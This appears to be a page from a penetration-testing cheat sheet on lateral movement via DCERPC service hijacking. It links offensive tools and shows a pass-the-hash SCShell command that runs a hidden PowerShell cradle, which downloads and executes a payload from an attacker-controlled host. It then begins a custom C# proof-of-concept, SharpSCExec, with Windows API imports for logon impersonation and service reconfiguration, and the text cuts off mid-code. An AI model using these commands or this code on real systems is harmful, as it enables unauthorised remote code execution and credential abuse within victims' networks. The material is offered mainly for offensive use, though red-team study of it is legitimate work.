 


## DCERPC

* [https://github.com/Mr-Un1k0d3r/SCShell](https://github.com/Mr-Un1k0d3r/SCShell)
* [https://github.com/juliourena/SharpNoPSExec](https://github.com/juliourena/SharpNoPSExec)
* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Fileless%20Lateral%20Movement/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Fileless%20Lateral%20Movement/Program.cs)

Using Python [implementation](https://github.com/Mr-Un1k0d3r/SCShell/blob/master/scshell.py) and PtH:

```
$ python scshell.py MEGACORP/snovvcrash@192.168.1.11 -hashes :fc525c9683e8fe067095ba2ddc971889 -service-name lfsvc
SCShell>C:\windows\system32\cmd.exe /c powershell.exe -nop -w hidden -c iex(new-object net.webclient).downloadstring('http://10.10.13.37:8080/payload.ps1')
```

Custom PoC:

{% code title="SharpSCExec.cs" %}
```cs
using System;
using System.Runtime.InteropServices;

namespace SharpSCExec
{
    class Program
    {
        [DllImport("advapi32.dll", SetLastError = true, BestFitMapping = false, ThrowOnUnmappableChar = true)]
        [return: MarshalAs(UnmanagedType.Bool)]
        internal static extern bool LogonUser([MarshalAs(UnmanagedType.LPStr)] string lpszUsername, [MarshalAs(UnmanagedType.LPStr)] string lpszDomain, [MarshalAs(UnmanagedType.LPStr)] string lpszPassword, int dwLogonType, int dwLogonProvider, out IntPtr phToken);

        [DllImport("advapi32.dll", SetLastError = true)]
        static extern bool ImpersonateLoggedOnUser(IntPtr hToken);

        [DllImport("advapi32.dll", EntryPoint = "OpenSCManagerW", ExactSpelling = true, CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern IntPtr OpenSCManager(string machineName, string databaseName, uint dwAccess);

        [DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Auto)]
        static extern IntPtr OpenService(IntPtr hSCManager, string lpServiceName, uint dwDesiredAccess);

        [DllImport("advapi32.dll", CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern Boolean QueryServiceConfig(IntPtr hService, IntPtr intPtrQueryConfig, UInt32 cbBufSize, out UInt32 pcbBytesNeeded);

        [DllImport("advapi32.dll", EntryPoint = "ChangeServiceConfig")]
        [return: MarshalAs(UnmanagedType.Bool)]
        public static extern bool ChangeServiceConfigA(IntPtr hService, uint dwServiceType, int dwStartType, int dwErrorControl, string lpBinaryPathName, string lpLoadOrderGroup, string lpdwTagId, string lpDependencies, string lpServiceStartName, string lpPassword, string lpDisplayName);

        [DllImport("advapi32", SetLastError = true)]
        [return: MarshalAs(UnmanagedType.Bool)]
        public static extern bool StartService(IntPtr hService, int dwNumServiceArgs, string[] lpServiceArgVectors);

        [DllImport("kernel32.dll")]
```